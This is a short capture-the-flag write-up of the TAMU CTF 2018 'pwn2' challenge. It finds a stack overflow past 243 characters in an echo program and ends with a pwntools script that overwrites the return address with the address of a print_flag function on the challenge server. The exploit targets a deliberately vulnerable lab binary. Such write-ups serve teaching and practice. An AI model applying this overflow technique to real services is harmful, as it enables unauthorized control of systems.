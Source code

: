 ```yaml
---
title:  TAMU CTF 2018 - PWN2
author: zangobot
layout: post
category: ctf
tags: [ ctf, springchicken, challenge ]
---
```

pwn2 asks the user to enter a sentence and it will reply with the same message.

```
I just love repeating what other people say!
I bet I can repeat anything you tell me!

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi
```

My intuition is suggesting me to mess with the length of the input string.

After some trials, I found that with a string longer than 243 characters, the program halts in [SIGSEGV](https://en.wikipedia.org/wiki/Segmentation_fault).

This time, the buffer is long enough for a shellcraft... if only the NX bit were disabled.

I can't proceed in that direction. Should I use ROP?

Why the hell? There is the `print_flag` function in the binary! As regards ASLR and canary, same as [pwn1]({{site.base_url}}/writeups/TAMU2018/pwn1), they are both disabled.

So, the exploit is:

```
from pwn import *

OFFSET = 243
shell = p32(0x0804854b)
exploit = 'A'*OFFSET + shell
rem = remote('pwn.ctf.tamu.edu', 4322)
rem.sendline(exploit)
rem.interactive()

```


Flag captured :-D

